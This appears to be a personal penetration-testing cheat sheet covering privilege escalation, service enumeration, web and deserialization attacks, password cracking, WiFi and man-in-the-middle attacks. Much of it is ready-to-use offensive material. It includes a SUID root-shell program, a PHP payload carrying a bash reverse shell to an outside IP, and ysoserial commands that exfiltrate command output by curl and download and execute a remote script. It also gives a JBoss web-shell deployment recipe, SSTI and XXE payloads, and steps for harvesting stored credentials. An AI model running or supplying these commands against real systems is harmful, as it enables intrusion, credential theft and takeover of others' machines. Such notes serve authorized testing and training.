# Uncomment the next line to enable packet forwarding for IPv4
net.ipv4.ip_forward=1
```

## Create Linux Service

```bash
cd /etc/systemd/system
cat SERVICE_NAME.service
```

```text
[Unit]
Description=DESCRIPTION
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=CMD [example: /usr/bin/python3 /var/www/my_service.py]

[Install]
WantedBy=multi-user.target
```

## iptables

```bash
sudo apt install -y iptables iptables-persistent

iptables -t TABLE -A CHAIN -j POLICY -i IN_INTERFACE -s SOURCE_ADDRESS -d DESTINATION_ADDRESS -p PROTOCOL
iptables -t TABLE -I CHAIN -j POLICY -i IN_INTERFACE -s SOURCE_ADDRESS -d DESTINATION_ADDRESS -p PROTOCOL
iptables -t TABLE -D CHAIN -j POLICY -i IN_INTERFACE -s SOURCE_ADDRESS -d DESTINATION_ADDRESS -p PROTOCOL

sudo iptables -L --line-numbers
cat /etc/iptables/rules.v4
```

FILTER Table

- INPUT chain
- OUTPUT chain
- FORWARD chain

NAT Table

- OUTPUT chain
- PREROUTING chain
- POSTROUTING chain

MANGLE Table

Policies:

- ACCEPT
- DROP
- REJECT

## Printer Scan

```bash
scanimage --device-name "PRINTER_FULL_NAME" --format png --progress --resolution 200 --output-file FILENAME.png

scanimage -A
```

## LINUX PRIV ESC

id
hostname
uname -a
lsb_release -a
cat /proc/version
cat /proc/cpuinfo
env
echo $PATH

df -h
lsblk

cat /etc/passwd
cat /etc/shadow
cat /etc/exports
cat /etc/hosts

ip -c a
ifconfig

sudo -v
sudo -l

find / -type f -perm -u=s 2>/dev/null
then check <https://gtfobins.github.io/>

find / -type f -perm -o=w -user root 2>/dev/null
find / -type f -perm -o=x -user root 2>/dev/null
find / -type d -perm -o=x -user root 2>/dev/null
find / -writable 2>/dev/null | cut -d '//' -f 2,3 | grep -v proc | sort -u
find / -type f -exec grep password {} \\; 2>/dev/null
find . -type f -exec grep password {} \\; 2>/dev/null

ps aux

netstat -lnvpt
ss -lnt

cat /etc/crontab

getcap -r / 2>/dev/null
then check <https://gtfobins.github.io/>
/usr/bin/openssl = cap_setuid+ep
<https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/>

which python python3 php gcc apache2 nginx nc netcat ss netstat mongo mysql psql

PKEXEC ABUSE
On session 1
#Step1: Get current PID
echo $$
#Step 3, execute pkexec
pkexec /bin/bash
#Step 5, if correctly authenticate, you will have a root session

On session 2
#Step 2, attach pkttyagent to session1
pkttyagent --process PID_OF_SESSION1
#Step 4, you will be asked in this session to authenticate to pkexec

determine the shared object that are being loaded by and executable:
ldd /usr/share/local/bin/PROGRAM

determine if the application was compiled with RPATH or RUNPATH
objdumo -x /usr/share/local/bin/PROGRAM | grep RPATH
objdumo -x /usr/share/local/bin/PROGRAM | grep RUNPATH

check for DOCKERS!!!!

### showmount -e IP

on /etc/export look for mount poits that have no_root_squash:
mount -o rw IP:REMOTE_MOUNT_POINT /tmp/test

main.c

```c
int main()
{
    setgid(0);
    setuid(0);
    system('/bin/bash');
    return 0;
}
```

gcc -o main -w main.c
chmod +s main

# Windows

## Tools

[dnSpy to view dll](https://github.com/dnSpy/dnSpy)

[sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/)

## Utilities
```bash
rdesktop IP -u USERNAME -p -

recordmydesktop --windowid=WINDOW_ID --overwrite --no-sound
```

to get WINDOW_ID
```bash
xdotool selectwindow
```

Print installed Software:
```bash
Set-ExecutionPolicy Unrestricted
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -AutoSize
```

## Priviledge Escalation

### Tools

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [PrivescCheck](https://github.com/itm4n/PrivescCheck)
- [WES-NG: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)

runas /profile /user:HOSTNAME\\USERNAME CMD

Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

whoami

hostname

Get-ChildItem env:*

### Services

- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions

```bash
sc query SERVICE_NAME
Get-Service
Get-Service | Where-Object {$_.Status -eq 'Running'}
wmic service get | findstr SERVICE_NAME
```

```bash
whoami
whoami /priv
```

```bash
systeminfo
wmic product get name,version,vendor
```

ipconfig /all

regquery

type
Get-Content FILE

ls
dir
Get-ChildItem
Get-ChildItem -Path FILE | fl *
Get-ChildItem -Path PATH -Include SEARCH_STRING -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path PATH -Recurse | Select-String -pattern PATTERN
Get-Acl

Get-Command

Get-FileHash -Algorithm ALGORITHM FILE

$data = Get-Content 'b64.txt'
[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($data)) | Out-File -Encoding 'ASCII' out.html

Get-NetIPAddress
Get-NetTCPConnection
Test-NetConnection -Port
Get-HotFix

Get-Process

Get-LocalUser
Get-LocalGroup

Get-ScheduledTask

Invoke-WebRequest URL -OutFile FILENAME
(New-Object System.Net.WebClient).Downloadfile(URL, FILENAME)

Set-ExecutionPolicy Bypass -Scope Process
powershell -ExecutionPolicy Bypass -File FILENAME

cscript.exe payload.vbs
wscript payload.vbs
wscript /e:VBScript payload.txt

Rubeus.exe brute /password:Password1 /noticket

Powershell History
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 

Saved Windows Credentials
cmdkey /list

runas /savecred /user:admin cmd.exe


IIS Configuration
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
find database connection strings on the file:

type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString


Retrieve Credentials from Software: PuTTY
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

Scheduled Tasks
schtasks /query /tn vulntask /fo list /v

### Dangerous Privileges

- SeBackup
- SeRestore
- SeTakeOwnership
- SeImpersonate
- SeAssignPrimaryToken

get them:
whoami /priv

# VirtualBox

## Accessing SD Card

Open CMD prompt as Admin

```bash
wmic diskdrive list brief
cd "C:\Program Files\Oracle\VirtualBox\"
.\VBoxManage.exe internalcommands createrawvmdk -filename "%USERPROFILE%/Desktop/sdcard.vmdk" -rawdisk "\\.\PHYSICALDRIVE1"
```

Launch VirtualBox as Admin
Go to Machine Storage Settings
Set "Use Host I/O Cache" on
Attached the SD card VMDK

# Pentesting

## Common Vulnerability Scoring System (CVSS) 

<https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator>

<https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator>

| CVSS v2.0 Ratings | |
| --- | --- |
| **Severity** | **Base Score Range** |
| Low | 0.0-3.9 |
| Medium | 4.0-6.9 |
| High | 7.0-10.0 |

| CVSS v3.0 Ratings | |
| --- | ---|
| **Severity** | **Base Score Range** |
| None | 0.0 |
| Low | 0.1-3.9 |
| Medium | 4.0-6.9 |
| High | 7.0-8.9 |
| Critical | 9.0-10.0 |


## ONLINE TOOLS and INFO

<https://crackstation.net>

<https://revshells.com>

<https://gtfobins.github.io>

<https://lolbas-project.github.io>

<https://www.exploit-db.com>

<https://book.hacktricks.xyz>

<https://gchq.github.io/CyberChef/>

## Tools

putty-tools

convert ppk to id_rsa

puttygen test.ppk -O public-openssh -o id_rsa.pub

puttygen test.ppk -O private-openssh -o id_rsa

### John The Ripper

<https://github.com/openwall/john>

```bash
john --wordlist=FILE_NAME FILE_NAME

gpg2john FILENAME.asc > FILENAME_OUT

ssh2john id_rsa > id_rsa_key

gpg --import FILENAME.asc

gpg --decrypt FILENAME.pgp
```

### hydra

```bash
hydra -P FILE_NAME SERVICE://IP

hydra -l USER -P FILE_NAME IP http-post-form 'PATH:REQUEST_BODY&username=^USER^&password=^PASS^:S=302'

hydra -L FILE_NAME -P FILE_NAME IP http-post-form 'PATH:REQUEST_BODY&username=^USER^&password=^PASS^:S=302'
```

### crunch

```bash
crunch MINIMUM_LENGTH MAXIMUM_LENGTH CHARACTER_SET -o OUTPUT_FILENAME
```

### sqlmap

```bash
sqlmap -u URL

sqlmap -u URL -

sqlmap -r FILE_NAME

sqlmap -u 'http://example.com/' --data 'user=1&password=2&c=3' -p 'user,password' --method POST

sqlmap -r FILE_NAME --dump

sqlmap -r FILE_NAME -dbs

sqlmap -r FILE_NAME -D DATABASE_NAME -tables

sqlmap -r FILE_NAME -D DATABASE_NAME -T TABLE_NAME -columns

sqlmap -r FILE_NAME -D DATABASE_NAME -T TABLE_NAME -dump
```

**WAF Bypass:**

```bash
sqlmap -r FILE_NAME --tamper=space2comment
```

### tcpdump

```bash
tcpdump -i NETWORK_INTERFACE

**don't resolve names:**

tcpdump -n

tcpdump host IP_or_HOSTNAME

tcpdump dst host IP_or_HOSTNAME

tcpdump dst host IP_or_HOSTNAME

tcpdump port PORT

tcpdump port PROTOCOL (ex: http, pop3, ssh)

tcpdump dst port PORT

tcpdump scr port PORT

tcpdump scr port PORT and dst host IP_or_HOSTNAME

tcpdump scr port PORT or scr port PORT
```

## BASIC ENUMERATION

nmap -sV -sC -sT -p- -oN FILE_NAME IP

## FTP - File Transfer Protocol (port 21)

test for anonymous login

## SSH - Secure SHell (port 22)

```bash
ssh -p PORT USERNAME@IP/HOSTNAME
ssh -i id_rsa -p PORT USERNAME@IP/HOSTNAME
ssh_scan -t IP -p PORT -o FILE_NAME
ssh-keyscan -t rsa IP -p PORT
msfconsole: use scanner/ssh/ssh_identify_pubkeys; use scanner/ssh/ssh_enumusers
hydra -L FILE_NAME -P FILE_NAME ssh://IP:PORT
```

## SFTP - Secure FTP (port 22)

```bash
ssh -P PORT USERNAME@IP/HOSTNAME
ssh -i id_rsa -P PORT USERNAME@IP/HOSTNAME
```

## SMTP (port 25) & SMTPS (port 465)

```bash
nmap -p25 --script smtp-commands IP
```

## DNS - Domain Name System (port 53)

Domain name allowed characters:

- lower case letters
- numbers
- non ASCII characters
- dot .
- hyphen -

Case insensitive

Maximum length:

- 253 characters
- 63 characters for labels (part separated by dot)

```bash
dig HOSTNAME @DNS_SERVER
dig -x IP
host IP @DNS_SERVER
nslookup IP @DNS_SERVER
```

### dnsmasq

```bash
apt install dnsmasq
systemctl start dnsmasqd.service
cat /etc/dnsmasq.conf
```

### Brute Force

- dnsenum
- subbrute.py

### Zone Transfer

```bash
dig @NAMESERVER axfr DOMAINNAME
```

## DHCP - Dynamic Host Configuration Protocol (server port UDP 67 and client port UDP 68)

- Client broadcasts: Server Discovery
- DHCP server: IP Lease Offer
- Client: IP Lease Request
- DHCP server: IP Lease Acknowledgment

```bash
apt install dhcpcd
systemctl start dhcpcd
nano /etc/dhcpcd.conf
```

## finger (port 79)

```bash
finger USERNAME@IP
finger root@IP
```

## HTTP - HyperText Transfer Protocol (port 80) & HTTPS (port 443)

### HTTP status codes

1xx : Informational - Request received, continuing process
2xx : Success - The action was successfully received, understood, and accepted
3xx : Redirection - Further action must be taken in order to complete the request
4xx : Client Error - The request contains bad syntax or cannot be fulfilled
5xx : Server Error - The server failed to fulfill an apparently valid request

curl -X GET -I -L -k URL
filebuster -u URL -w FILE_NAME -o FILE_NAME
dirb URL
GUI dirbuster
nikto -host HOSTNAME -output FILE_NAME
nuclei -u URL -o FILE_NAME
robots.txt
sitemap.xml
check CMS (content management systems):
  WordPress
  SAP
  Bolt
check headers:
  HSTS: no Strict-Transport-Security;
  CORS: Access-Control-Allow-Origin:*;
  CLICKJACKING (only inside session): no X-Frame-Options;
check session cookies:
  secure flag
  httponly flag
check hidden content in pages
check XSS (DOM, reflected, stored, blind)
check SQLi: ' or 1=1 -- -; blind; time based;
check NoSQLi: PARAMETER[$ne]=user
check XXE (XML external entity): <!DOCTYPE foo [<!ENTITY test 'test123'>]> <tag>&test;</tag> <!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]> <tag>&xxe;</tag> <!DOCTYPE foo [<!ENTITY xxe SYSTEM 'http://test.com'>]> <tag>&xxe;</tag>
Check request smuggling: smuggler -u URL -l FILE_NAME
Padding Oracle attacks: perl padBuster.pl URL

### Wordpress

URL/?author=ID
URL/?s=author
URL/?s=by

### JBOSS

jmx-console:

CVE-2007-1036

<https://www.exploit-db.com/exploits/16318>

msfconsole:

use exploit/multi/http/jboss_maindeployer

manually exploit:

create a backdoor.jsp with the content of <https://github.com/fuzzdb-project/fuzzdb/blob/master/web-backdoors/jsp/cmd.jsp>",

create a backdoor.war

create a python server to serve the war on jboss.system:MainDeployer go to redeploy and enter the url for the backdoor and press invoke

go to <http://VUNERABLE.APP/backdoor/backdoor.jsp> and have RCE

### SQLi

<https://portswigger.net/web-security/sql-injection/cheat-sheet>

### SSTI

#### node.js

pug template engine:

```text
    p #{7*7}
    p #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('ls -la')}()}
    p #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('id', (error, stdout, stderr) => { global.out=String(stdout) }) }() }
    p #{out}
```

### Serialization

#### java

Usualy java serialized objects start with **ac ed 00 05** or in base64 encoding **rO0aB**

<https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet>

ysoserial:

<https://github.com/frohoff/ysoserial>

java -jar ysoserial-all.jar [payload] '[command]'

java -cp ysoserial-all.jar ysoserial.exploit.JSF

Create serialized object to do RCE

java -jar ysoserial-all.jar CommonsCollections1 'whoami' > test.bin

Create serialized object to do DNS query:

java -jar ysoserial-all.jar URLDNS <http://testjbjhebdkjs.com> > test.bin

getting a list with all ysoserial payloads

java -jar ysoserial-all.jar > yso 2>&1

cat yso | tr -d ' ' | cut -d '@'' -f 1 > payloads.txt

sed -i -e '1,7d' payloads.txt

#### PHP

serialized data format:
   NULL N;
   true b:1;
   false b:0;
   42 i:42;
   42.3789 d:42.378900000000002;
            "Precision controlled by serialize_precision ini setting (default 17)",
   \"abcd\" s:4:\"abcd\";
   resource i:0;
   [10, 11, 12] a:3:{i:0;i:10;i:1;i:11;i:2;i:12;}

PHP function to serialize and unserialize data:

```php
$string = serialize($myvar);
$backtomyvar = unserialize($string);
var_dump($backtomyvar);

# if contains special character URL encode payload
# example of bash reverse shell
# O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A71%3A%22system%28%27%2Fbin%2Fbash+-c+%5C%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.104.25.2%2F54321+0%3E%261%5C%27%27%29%3B%22%3B%7D
```

#### .NET

BinaryFormatter
DataContractSerializer
NetDataContractSeroalizer
XML Serialization
Serialized .NET data can be found in the VIEWSTATE Parameter of an HTTP request
ysoserial .NET:
<https://github.com/pwntester/ysoserial.net/>
examples:
soserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c 'powershell.exe Invoke-WebRequest -Uri <http://10.10.11.3:9000/abcdabcdabc>
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c 'cmd /c calc.exe' -o raw
out-of-band data exfiltration via command execution:
nano payload.txt
$c=whoami;curl http://10.10.11.3:9000/$c
ysoserial payload:
powershell -exec Bypass -C \"IEX (New-Object Net.WebClient).DownloadString('http://10.10.11.3:9000/payload.txt')\"
notes:
As said before, Soap Body tags should be removed: <SOAP-ENV:Body>
In order to have a valid soap message, a dummy SOAPAction header is required. This is related to SOAP and not related to this specific lab
The content type should be text/xml like in every SOAP request
If you are receiving an error stating 'Requested service was not found', you might also need to clear some whitespaces / newlines

#### BurpSuite extensions

Freddy, Deserialization Bug Finder

Java Deserialization Scanner

## POP3 (port 110) & POP3S (port 995)

```bash
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port PORT IP
```

**POP commands:**

- USER uid           Log in as "uid"
- PASS password      Substitute "password" for your actual password
- STAT               List number of messages, total mailbox size
- LIST               List messages and sizes
- RETR n             Show message n
- DELE n             Mark message n for deletion
- RSET               Undo any changes
- QUIT               Logout (expunges messages if no RSET)
- TOP msg n          Show first n lines of message number msg

## IMAP (port 143) & IMAPS (port 993)

## NetBIOS (port 139 and UDP ports 137 and 138)

nbtscan -r IP

## SNMP - Simple Network Management Protocol (port UDP 161 and port UDP 162 - Trap) & SSNMP (port UDP 10161 and port UDP 10162 - Trap)

snmp-check IP

## SMB - Server Message Block (port 445)

enum4linux IP
smbshare
smbclient -L
smbclient //IP/SHARE
msf use msf6 auxiliary/scanner/smb/smb_version
msf use msf6 auxiliary/scanner/smb/smb_enumshares
./kerbrute_linux_amd64 userenum -d DOMAIN FILE_NAME_users
./kerbrute_linux_amd64 passwordspray -d DOMAIN FILE_NAME_users PASSWORD
./kerbrute_linux_amd64 bruteuser -d DOMAIN FILE_NAME_passwords USERNAME
./kerbrute_linux_amd64 userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

## LDAP - Lightweight Directory Access Protocol (port 389) and LDAPs (port 636)

sudo apt install slapd ldap-utils

## RTSP - Real Time Streaming Protocol (port 554)

Server:
<https://github.com/aler9/rtsp-simple-server>

```python
vcap = cv2.VideoCapture("rtsp://IP:PORT/PATH")
while(1):
    ret, frame = vcap.read()
    cv2.imshow('VIDEO', frame)
    
    if cv2.waitKey(60) & 0xFF == ord('q'):
        break
```

Possible endpoints:
https://www.ispyconnect.com/camera/hipcam

## JAVA RMI (port 1099)

nmap --script rmi-dumpregistry -p 1099 IP

to find the method name:

<https://github.com/qtc-de/remote-method-guesser>

CVE-2011-3556

<https://www.exploit-db.com/exploits/17535>

msfconsole:

use exploit/multi/misc/java_rmi_server

## OPENVPN (port 1194)

[Openvpn Server Install](./howto/openvpn_server_install.txt)

## MS SQL (port 1433)

sqsh -S IP -U USER -P PASS

list dbs:
SELECT name FROM master.sys.databases;
go

use DB;
go

list tables:
SELECT table_name FROM information_schema.tables WHERE table_type = 'base table';
go

get data:
SELECT * FROM DB.dbo.TABLE;
go

run cmd:
xp_cmdshell 'whoami';
go

"mssqlclient.py -p PORT DOMAINNAME/USERNAME:PASSWORD@IPD -windows-auth"

## MQTT (port 1883) & MQTTS (port 8883)

pip install paho-mqtt

Or CMD line tool:
[mosquitto_sub](https://mosquitto.org/man/mosquitto_sub-1.html)

publish to topic
mosquitto_pub -h HOSTNAME -t device/info -m "This is an example"

subscribe a topic
mosquitto_sub -h HOSTNAME -t device/info

subscribe all topics:
mosquitto_sub -h HOSTNAME -t "#"

## RTMP - Real-Time Messaging Protocol (port 1935)

use nginx-rtmp-module as server

send stream:

```bash
ffmpeg -i /dev/video0 -re -f lavfi -i anullsrc -c:v libx264 -vf format=yuv420p -b:v 4000k -bufsize 8000k -maxrate 4000k -g 50 -c:a aac -f flv rtmp://0.0.0.0:1935/mytv
```

to stream to youtube enter the RTMP server URL followed by the KEY:
rtmp://a.rtmp.youtube.com/live2/KEY

get Stream:

```python
import cv2

vcap = cv2.VideoCapture("rtmp://IP:PORT/PATH")

while(1):
    ret, frame = vcap.read()
    cv2.imshow('VIDEO', frame)
    
    if cv2.waitKey(60) & 0xFF == ord('q'):
        break
```

## NFS - Network File System (port 2049)

nmap --script nfs-ls, nfs-showmount, nfs-statfs IP -p 2049
showmount -e IP
    SHARE_NAME (everyone)
mkdir /tmp/tmp1
mount -t nfs IP:/SHARE_NAME /tmp/tmp1 -o nolock

## MySQL (port 3306)

mysql -h IP_or_HOSTNAME -u USERNAME -p

SHOW DATABASES;

SHOW TABLES;

Create DB

SELECT * FROM table_name WHERE condition;

CREATE TABLE table_name (column1 datatype1 NOT NULL PRIMARY KEY, column2 datatype2, column3 datatype3, ...);

INSERT INTO table_name (column1, column2, column3, ...) VALUES (value1, value2, value3, ...);

ALTER TABLE old_table_name RENAME new_table_name;

ALTER TABLE table_name ADD COLUMN column datatype [FIRST|AFTER existing_column];

ALTER TABLE table_name DROP COLUMN column;

ALTER TABLE table_name CHANGE old_column_name new_column_name varchar(25);

ALTER TABLE table_name RENAME COLUMN current_name TO new_name;

UPDATE table_name SET column1='', column2='' WHERE column='';

DELETE FROM table_name WHERE condition;

get boolean based
SELECT * FROM table_name WHERE column1='' UNION SELECT 1,2,... where column1= 'a%'

datatypes:
PRIMARY KEY
AUTO_INCREMENT
NOT NULL DEFAULT 'default_value'
TEXT
INTEGER

bypass white spaces:
/**/

get tables:
SELECT table_schema, table_name, 1 FROM information_schema.tables

get table name and column name:
SELECT table_name, column_name, 1 FROM information_schema.columns

SHOW COLUMNS FROM table_name

Export and Import Data:
mysqldump -u username -p database_name  > the_whole_database_dump.sql
mysqldump -u username -p database_name table_name > single_table_dump.sql
mysql -u username -p database_name --tables table1 table2 table3 < data_to_import.sql

## SQLITE3

[SQLite](https://www.sqlite.org/index.html)

sqlite3 database_name

SELECT sqlite_version();
PRAGMA table_info(table_name);
SELECT * FROM sqlite_schema;

SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name=TABLE_NAME

.help
.databases
.tables
.stats
.shell CMD ARGS
.quit

PRIMARY KEY
AUTOINCREMENT
NOT NULL DEFAULT 'default_value'
TEXT
INTEGER

## RDP - Remote Desktop Protocol (port 3389)

nmap --script=rdp-enum-encryption IP -p 3389
nmap --script 'rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info' -p 3389 -T4 IP
xfreerdp -sec-nla -sec-tls /u:audit /v:HOST:3389
rdp_check.py

## PostgresSQL (port 5432)

list tables

select * from pg_catalog.pg_tables;
select schemaname,tablename from pg_catalog.pg_tables;

SELECT * FROM pg_catalog.pg_tables
WHERE schemaname != 'information_schema' AND
schemaname != 'pg_catalog';

list columns

select column_name, data_type, col_description('public.my_table'::regclass, ordinal_position)
from information_schema.columns
where table_schema = 'public' and table_name = 'my_table';

select column_name, data_type, col_description('public.my_table'::regclass, ordinal_position)
from information_schema.columns
where table_schema = 'public' and table_name = 'my_table';

## WinRM - Windows Remote Management (port 5985 & port 5986)

### CVEs

<https://github.com/AlteredSecurity/CVE-2021-38647>

### Tools

<https://github.com/securethelogs/WinRM_Brute_Scanner>
<https://github.com/Hackplayers/evil-winrm>

### Powershell

Enable-PSRemoting –force
winrm quickconfig -transport:https
Set-Item wsman:\\localhost\\client\\trustedhosts * 
Restart-Service WinRM
winrs -r:IP -u:USERNAME -p:PASSWORD CMDs

### metasploit

auxiliary/scanner/winrm/winrm_auth_methods
auxiliary/scanner/winrm/winrm_login

### on linux using evil-winrm

evil-winrm -i IP -P PORT -u USERNAME -p PASSWORD
docker run -it evil-winrm -i IP -P PORT -u USERNAME -p PASSWORD


## REDIS (port 6379)

nmap --script redis-info -sV -p 6379 IP

msfconsole auxiliary/scanner/redis/redis_server

msfconsole exploit/linux/redis/redis_replication_cmd_exec",

redis-cli -h IP -p PORT

- IP:PORT> info
- IP:PORT> client list
- IP:PORT> CONFIG GET databases
- IP:PORT> select DATABASE_INDEX
- IP:PORT> INFO keyspace
- IP:PORT> keys *
- IP:PORT> dump KEY_NAME

if we see info there are no authentication
exploit by manipulating SSH or WebShell

## IRC - Internet Realy Chat (port 6667)

<https://ubuntu.com/tutorials/irc-server#1-overview>

[Python Client using socks](./programming/python/IRC.py)

## Apache Solr (port 8983)

<https://solr.apache.org>

## FastCGI (port 9000)

## MongoDB (port 27017)

[Python Client](./programming/python/mongo_db.py)

mongo
show dbs
use DB_NAME
show collections
db.COLLECTION_NAME.find()

injection example: ($ is %24)
user=Patrick&password[%24ne]

Shodan
"mongodb server information"
"mongodb server information" -"partially enabled"
"mongodb server information" "partially enabled"

docker pull mongo:latest
docker run --rm -it --name mongo mongo mongosh --host HOSTNAME/IP

## WOL (Wake On LAN)

Uses UDP
WOL magic packet is composed by:

- 12 times F
- 16 times the destination MAC without colons

Example for MAC **11:22:33:44:55:66**:
FFFFFFFFFFFF112233445566112233445566112233445566112233445566112233445566112233445566112233445566112233445566112233445566112233445566112233445566112233445566112233445566112233445566112233445566112233445566

## TLS - Transport Layer Security / SSL - Secure Sockets Layer (deprecated)

| Protocol | Published   | Status                        |
| -------- | ----------- | ----------------------------- |
| SSL 1.0  | Unpublished | Unpublished                   |
| SSL 2.0  | 1995        | Deprecated in 2011 (RFC 6176) |
| SSL 3.0  | 1996        | Deprecated in 2015 (RFC 7568) |
| TLS 1.0  | 1999        | Deprecated in 2021 (RFC 8996) |
| TLS 1.1  | 2006        | Deprecated in 2021 (RFC 8996) |
| TLS 1.2  | 2008        | In use since 2008             |
| TLS 1.3  | 2018        | In use since 2018             |

curl --tlsv1.1 IP

testssl --outFile FILE_NAME IP/HOSTNAME

openssl -s_client -connect IP/HOSTNAME:PORT

Generate a certificate signing request:
openssl req -new -nodes -newkey rsa:4096 -keyout cert.key -out cert.csr

Generate self-signed certificate:
openssl req -x509 -newkey -nodes rsa:4096 -sha256 -days 365 -keyout cert.key -out cert.pem

Read SSL PEM Certificate:
openssl x509 -noout -text -in FILENAME.pem

Read SSL CRT Certificate:
openssl x509 -noout -text -in FILENAME.crt


## stable shell

python3 -c "import pty;pty.spawn('/bin/bash')"

or

python -c "import pty;pty.spawn('/bin/bash')"

export TERM=xterm

Ctrl+z

stty raw -echo; fg

## Authentication

### OAUTH

https://www.rfc-editor.org/rfc/rfc6749

request for the oauth consent:
method: GET
path: /oauth/authorize
data:
response_type=[code or token]
redirect_uri
scope
client_id
example request:
http://vulnerable_oauth_server.com/oaut/authorize?response_type=code&redirect_uri=http://attacker/callbacscope=view_gallery&client_id=photoprint",
the redirect to the attacker page is:
example response:
redirect to:
http://attacker/callback/?code=AUTHORIZATION_CODE

request to get the token (for initial and refresh):
method: POST
path: /oaut/token
data:
redirect_uri
grant_type=[authorization_code or refresh_token]
client_id
client_secret=[BRUTE_FORCE]
code=AUTHORIZATION_CODE
example response:
access_token
refresh_token
id_token
token_type

finaly use access_token in the requeste that requires authentication

[python OAUTH2 login examples](./programming/python/o2auths/o2auths/views.py)

### JWT

<https://www.rfc-editor.org/rfc/rfc7519>

Tools:
<https://jwt.io/>

Burp Extension:
JWT Editor
JSON Web Token

HEADER.PAYLOAD.SIGNATURE

HEADER: key:value pair containing:
alg that can be HS256
typ JWT
kid
jwk (JSON Web Key)
jku (JSON Web Key Set URL)
kid (Key ID)

PAYLOAD: key:value pair containing the required data

Change the user inside the payload
Change the alg in HEADER to none
Remove the signature (leave the dot)
Brute force secret keys (hashcat -a 0 -m 16500 JWT WORDLIST or john --wordlist=WORDLIST --format=HMAC-SHA256 JWT.txt)

## XXE

[XML example](./programming/html_js/test_xml.xml)

[External Entity Injection](./programming/html_js/xxe_EEI.xml)

[Billion LoLs](./programming/html_js/xxe_lol.xml)

## XSS

Cheat-Sheet:
<https://portswigger.net/web-security/cross-site-scripting/cheat-sheet>

[].sort.call`${alert}1337`


## Web Proxy Automatic Detection (WPAD)

[How to on Squid Proxy](https://wiki.squid-cache.org/Technology/WPAD)

WPAD using DNS:
- create a webserver with hostname starting by wpad: wpad.example.net
- Create the PAC proxy.pac file
- Store it on the created webserver

## Proxy auto-configuration (PAC)

- Create the PAC proxy.pac file
- Store it on a webserver
- Go to browser to download it in http://example.com/proxy.pac

## WIFI

Encription methods:
- WEP - Wired Equivalent Privacy - uses RC4
- WPA - Wi-Fi Protected Access - uses TKIP
- WPA2 - uses CCMP
- WPA3

Authenticathion methods:
- PSK - Pre Shared Key - uses a password, common in private LANs
- EAP - Extensible Authentication Protocol - uses an authentication server, common in enterprises

sudo airmon-ng start|stop|check INTERFACE

sudo airmon-ng start wlan0

sudo airodump-ng --bssid BSSID --channel CHANNEL -w FILE_NAME

sudo aircrack-ng -a [1/WEP, 2/WPA-PSK] -b BSSID -w FILE_NAME_WORDLIST FILE_NAME

sudo aireplay-ng --deauth 100 -a BSSID INTERFACE

sudo ip link set wlan1 down
\# sudo iwconfig wlan1 mode monitor
sudo iw dev wlan1 set type monitor
sudo ip link set wlan1 up

sudo ip link set wlan1 down
\# sudo iwconfig wlan1 mode managed
sudo iw dev wlan1 set type managed
sudo ip link set wlan1 up

## Man in th Middle (MITM)

### bettercap

net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets VICTIM MAC or IP
arp.spoof on
net.sniff on

### ettercap

ettercap -T -S -i INTERFACE -M arp:remote /ROUTER_IP// /VICTIM_IP//

## Volatility

<https://www.volatilityfoundation.org/releases-vol3>

<https://github.com/volatilityfoundation/volatility3>

python3 vol.py -h

python3 vol.py -f FILENAME.vmem windows.info

python3 vol.py -f FILENAME.vmem windows.pslist

python3 vol.py -f FILENAME.vmem windows.psscan

python3 vol.py -f FILENAME.vmem windows.dumpfiles --pid PID

# Buffer overflow

<https://owasp.org/www-community/vulnerabilities/Buffer_Overflow>


- Stack Buffer overflow (SBO)
- Heap Buffer overflow

Variables in memory are stored using either little endian (for intel x86 processors) or big endian (for PowerPC) format. In little endian, the bytes are stored in reverse order:
0x032CFBE8 will be stored as “E8FB2C03”

- how to identify the vulnerability from source code perspective
verify the input parameters and where they will be used to check if they are going to be used in fome dangerous functions
in c/c++ look for funtions like: gets, scanf, and strcpy

- potential impact
sheel code
full system compromised

- steps required to exploit the vulnerability
test the the inputs
find the buffer overflow
exploit it

- mitigations which aim at preventing the vulnerability
filter the user inputs
dont use dangerous functions
use OSruntime protection
keep things patched
use programing languages like java python and C# (interpreted ones)

gcc -o test test.c -f no-stack-protector

- tools which help you
gdb
radare2
gidra
Immunity Debugger
msf-pattern_create

# Frida

